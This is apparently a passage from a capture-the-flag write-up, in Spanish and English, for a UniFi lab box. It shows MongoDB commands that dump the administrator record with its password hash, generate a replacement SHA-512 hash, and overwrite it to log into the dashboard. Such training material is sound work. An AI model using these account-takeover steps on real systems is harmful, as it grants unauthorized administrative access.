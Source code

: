 > ace

 Task 10

What is the function we use to enumerate users within the database in MongoDB? 


``` shell
> db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", "time_created" : NumberLong(1640900495), "last_site_name" : "default", "ui_settings" : { "neverCheckForUpdate" : true, "statisticsPrefferedTZ" : "SITE", "statisticsPreferBps" : "", "tables" : { "device" : { "sortBy" : "type", "isAscending" : true, "initialColumns" : [ "type", "deviceName", "status", "connection", "network", "ipAddress", "experience", "firmwareStatus", "downlink", "uplink", "dailyUsage" ], "columns" : [ "type", "deviceName", "status", "macAddress", "model", "ipAddress", "connection", "network", "experience", "firmwareStatus", "firmwareVersion", "memoryUsage", "cpuUsage", "loadAverage", "utilization", "clients", "lastSeen", "downlink", "uplink", "dailyUsage", "uptime", "wlan2g", "wlan5g", "radio2g", "radio5g", "clients2g", "clients5g", "bssid", "tx", "rx", "tx2g", "tx5g", "channel", "channel2g", "channel5g" ] }, "client" : { "sortBy" : "physicalName", "isAscending" : true, "initialColumns" : [ "status", "clientName", "physicalName"
```

> db.admin.find()

 Task 11

What is the function we use to update users within the database in MongoDB? 

Antes de actualizar la clave hay que generar una nueva
```

┌──(kali㉿kali25)-[~/Log4jUnifi]
└─$ mkpasswd -m sha-512 secret1234
$6$D63hi7/CVUZncSC7$rrYLcbmKhbKNIgGbd/K5PaGALF.xUFvaTuxO07oKX9sFGtGJQwfQeRzc1aTmStipNxrfm4pTfqxhtpfayF2lu1
```

Modificamos el registro del administrator con la password que nos interesa 

``` shell
db.admin.update(
  { name: "administrator" }, // Filtro
  { $set: { x_shadow: "$6$D63hi7/CVUZncSC7$rrYLcbmKhbKNIgGbd/K5PaGALF.xUFvaTuxO07oKX9sFGtGJQwfQeRzc1aTmStipNxrfm4pTfqxhtpfayF2lu1" } }
)
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

El propio enunciado de la tarea nos da una pista, debemos utilizar el método adecuado para actualizar la password del administrador y de esta forma conseguir unas credenciales que nos deberían dar acceso como administrador. 

> db.admin.update()

Ahora con la password actualizada podemos logearnos y acceder al dashboard de Unifi Network 

 Task 12
